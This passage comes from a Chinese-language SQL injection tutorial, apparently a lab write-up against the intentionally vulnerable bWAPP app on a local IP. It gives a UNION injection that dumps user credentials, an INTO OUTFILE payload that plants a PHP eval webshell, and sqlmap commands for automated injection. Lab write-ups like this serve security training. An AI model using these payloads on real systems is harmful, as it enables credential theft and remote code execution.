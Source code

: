   ##### 获取对应列数据
  ``` bash
  http://192.168.36.129:3000/sqli_2.php?movie=6 and 1=2 union select 1,group_concat(id,login,password,email),3,4,5,6,7 from users
  ```

  ##### 写入poc脚本文件
  ``` bash
  http://192.168.36.129:3000/sqli_2.php?movie=6 and 1=2 union select 0x20,0x20,0x20,0x20,0x20,0x20,'<?php @eval($_POST[cmd]);?>' into outfile 'C:/Software/bWAPP/bWAPP/poc.php'
  ```
  >Tips: into outfile通过SQL命令向服务器对应路径写入文件内容，通常用来写入webshell到Web服务目录。

  ##### 管理webshell及提权
  ![提权](../images/20210312/exploit.png)
  #### 0x01：SqlMap自动注入

  ##### 是否存在注入
  ``` bash
  sqlmap -u http://192.168.36.129:3000/sqli_2.php?movie=6
  ```

  ##### 获取数据库
  ``` bash
  sqlmap -u http://192.168.36.129:3000/sqli_2.php?movie=6 --cookie="security_level=0; PHPSESSID=uovrdlujopr4jbd44p4afjavv2" --current-db
  ```
